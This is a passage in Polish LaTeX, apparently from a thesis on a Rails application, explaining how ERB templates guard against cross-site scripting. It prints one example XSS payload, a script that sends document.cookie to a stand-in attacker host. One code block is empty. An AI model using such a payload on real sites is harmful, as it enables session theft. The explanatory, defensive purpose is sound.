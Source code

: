 \emph{Przykładowy atak typu XSS:}

\begin{code}
  \begin{lstlisting}[language=HTML, showstringspaces=false]
  <script>
    document.write(
      '<img scr="http:/hacked.site.com/' + document.cookie + '">'
    );
  </script>
  \end{lstlisting}
\end{code}\\

Dzięki wbudowanemu w Railsy systemowi ERB templates\footnote{System za pomocą, którego kod strony html jest generowany dynamicznie} mamy doczynienia z dynamicznym tworzeniem kodu HTML, co uniemożliwia większość ataków trgo typu. Wszelkiegorodzaju odnośniki i dane na stronie zapisywane są przy użyciu specjalnej notacji:

\begin{code}
  
\end{code}\\

Ktora następnie, zostaje przekonwertowana do kodu HTML przez serwer i wysłane przeglądarce internetowej.

\begin{code}
  \begin{lstlisting}[language=HTML, showstringspaces=false]
    <a href="/events">My events</a>
    <a href="/">Events</a>
  \end{lstlisting}
\end{code}\\

